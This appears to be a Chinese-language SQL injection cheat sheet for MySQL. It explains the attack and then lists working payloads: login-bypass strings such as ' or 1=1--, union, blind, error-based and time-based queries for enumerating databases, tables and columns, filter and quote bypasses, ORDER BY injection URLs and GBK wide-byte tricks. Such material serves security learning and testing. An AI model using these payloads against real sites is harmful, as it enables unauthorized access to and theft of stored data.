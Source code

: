 # SQL 注入

## 基本概念

* SQL 注入是一种将 SQL 代码插入或添加到应用（用户）的输入参数中，之后再讲这些参数传递给后台的 SQL 服务器加以解析并执行的攻击。
* 攻击者能够修改 SQL 语句，该进程将与执行命令的组件（如数据库服务器、应用服务器或 WEB 服务器）拥有相同的权限。
* 如果 WEB 应用开发人员无法确保在将从 WEB 表单、cookie、输入参数等收到的值传递给 SQL 查询（该查询在数据库服务器上执行）之前已经对其进行过验证，通常就会出现 SQL 注入漏洞。

## 常用工具

* Burp Suite：[Burp Suite 使用介绍](http://static.hx99.net/static/drops/tools-1548.html)
* Tamper Data \(Firefox addon\)
* HackBar \(Firefox addon\)
* sqlmap：[sqlmap 用户手册](http://static.hx99.net/static/drops/tips-143.html)

## 注入常见参数

* `user()`：当前数据库用户；
* `database()`：当前数据库名；
* `version()`：当前使用的数据库版本；
* `@@datadir`：数据库存储数据路径；
* `concat()`：联合数据，用于联合两条数据结果。如 `concat(username,0x3a,password)`；
* `group_concat()`：和 `concat()` 类似，如 `group_concat(DISTINCT+user,0x3a,password)`，用于把多条数据一次注入出来；
* `concat_ws()`：用法类似；
* `hex()` 和 `unhex()`：用于 hex 编码解码；
* `load_file()`：以文本方式读取文件，在 Windows 中，路径设置为 `\\`；
* `select xxoo into outfile '路径'`：权限较高时可直接写文件。


## 语法参考与小技巧

### 行间注释

* `--`

  ```sql
  DROP sampletable;--
  ```

* `#`

  ```sql
  DROP sampletable;#
  ```

### 行内注释

- `/*注释内容*/`

  ```sql
  DROP/*comment*/sampletable`
  DR/**/OP/*绕过过滤*/sampletable`
  SELECT/*替换空格*/password/**/FROM/**/Members
  ```

- `/*! MYSQL专属 */` 

  ```sql
  SELECT /*!32302 1/0, */ 1 FROM tablename
  ```


### 字符串编码

* `ASCII()`：返回字符的 ASCII 码值；
* `CHAR()`：把整数转换为对应的字符。

## 后台万能密码

- `admin' --`
- `admin' #`
- `admin'/*`
- `' or 1=1--`
- `' or 1=1#`
- `' or 1=1/*`
- `') or '1'='1--`
- `') or ('1'='1--`
- 以不同的用户登陆 `' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`


## 注入语句备忘

### 数据库名

```sql
SELECT database();
SELECT schema_name FROM information_schema.schemata;
```

### 表名

- union 查询

  ```sql
  --MySQL 4版本时用version=9，MySQL 5版本时用version=10
  UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;
  /* 列出当前数据库中的表 */
  UNION SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database();
  /* 列出所有用户自定义数据库中的表 */
  SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema!='information_schema' AND table_schema!='mysql';
  ```

- 盲注

  ```sql
  AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
  ```

- 报错

  ```sql
  AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));
  -- 在5.1.5版本中成功。
  ```

### 列名

- union 查询

  ```sql
  UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'
  ```

- 盲注

  ```sql
  AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'
  ```

- 报错

  ```sql
  -- 在5.1.5版本中成功。 AND (1,2,3) = (SELECT * FROM SOME_EXISTING_TABLE UNION SELECT 1,2,3 LIMIT 1)-- MySQL 5.1版本修复了
  AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT column_name FROM information_schema.columns LIMIT 1)));
  ```

- 利用 `PROCEDURE ANALYSE()`

  ```sql
  -- 这个需要 web 展示页面有你所注入查询的一个字段。
  -- 获得第一个段名 
  SELECT username, permission FROM Users WHERE id = 1; 1 PROCEDURE ANALYSE() 
  -- 获得第二个段名 
  1 LIMIT 1,1 PROCEDURE ANALYSE() 
  -- 获得第三个段名
  1 LIMIT 2,1 PROCEDURE ANALYSE() 
  ```

### 根据列名查询所在的表

```sql
-- 查询字段名为 username 的表
SELECT table_name FROM information_schema.columns WHERE column_name = 'username';
-- 查询字段名中包含 username 的表
SELECT table_name FROM information_schema.columns WHERE column_name LIKE '%user%';
```

### 绕过引号限制

```sql
-- hex 编码
SELECT * FROM Users WHERE username = 0x61646D696E
-- char() 函数
SELECT * FROM Users WHERE username = CHAR(97, 100, 109, 105, 110)
```

### 绕过字符串黑名单

```sql
SELECT 'a' 'd' 'mi' 'n';
SELECT CONCAT('a', 'd', 'm', 'i', 'n');
SELECT CONCAT_WS('', 'a', 'd', 'm', 'i', 'n');
SELECT GROUP_CONCAT('a', 'd', 'm', 'i', 'n');
```

使用 `CONCAT()` 时，任何个参数为 null，将返回 null，推荐使用`CONCAT_WS()`。`CONCAT_WS()`函数第一个参数表示用哪个字符间隔所查询的结果。

### 条件语句

`CASE`, `IF()`, `IFNULL()`, `NULLIF()`. 

```sql
SELECT IF(1=1, true, false);
SELECT CASE WHEN 1=1 THEN true ELSE false END;
```

### 延时函数

`SLEEP()`, `BENCHMARK()`. 

```sql
' - (IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000,SHA1('true')), false)) - '
```

### order by 后的注入

`order by` 由于是排序语句，所以可以利用条件语句做判断，根据返回的排序结果不同判断条件的真假。一般带有 `order` 或者 `order by` 的变量很可能是这种注入，在知道一个字段的时候可以采用如下方式注入：

原始链接：`http://www.test.com/list.php?order=vote`

根据 `vote` 字段排序。找到投票数最大的票数 `num` 然后构造以下链接：

```
http://www.test.com/list.php?order=abs(vote-(length(user())>0)*num)+asc
```

看排序是否变化。还有一种方法不需要知道任何字段信息，使用 `rand` 函数：

````
http://www.test.com/list.php?order=rand(true)
http://www.test.com/list.php?order=rand(false)
````

以上两个会返回不同的排序，判断表名中第一个字符是否小于 128 的语句如下：

````
http://www.test.com/list.php?order=rand((select char(substring(table_name,1,1)) from information_schema.tables limit 1)<=128))
````

### 宽字节注入

国内最常使用的 GBK 编码，这种方式主要是绕过 `addslashes` 等对特殊字符进行转移的绕过。反斜杠 `\` 的十六进制为 `%5c`，在你「入」`%bf%27`时，函数遇到单引号自动转移加入 `\`，此时变为 `%bf%5c%27`，`%bf%5c`在 GBK 中变为一个宽字符「縗」。`%bf`那个位置可以是 `%81-%fe` 中间的任何字符。不止在 SQL 注入中，宽字符注入在很多地方都可以应用。

## 参考资料

- [SQL 注入速查表](http://static.hx99.net/static/drops/tips-7840.html)
- [MySQL 注入技巧](http://static.hx99.net/static/drops/tips-7299.html)
- [MySQL 注入科普](http://static.hx99.net/static/drops/tips-123.html)
- [MySQL 注入总结](http://www.91ri.org/4073.html)
- [《SQL 注入攻击与防御》](http://product.dangdang.com/23364650.html)

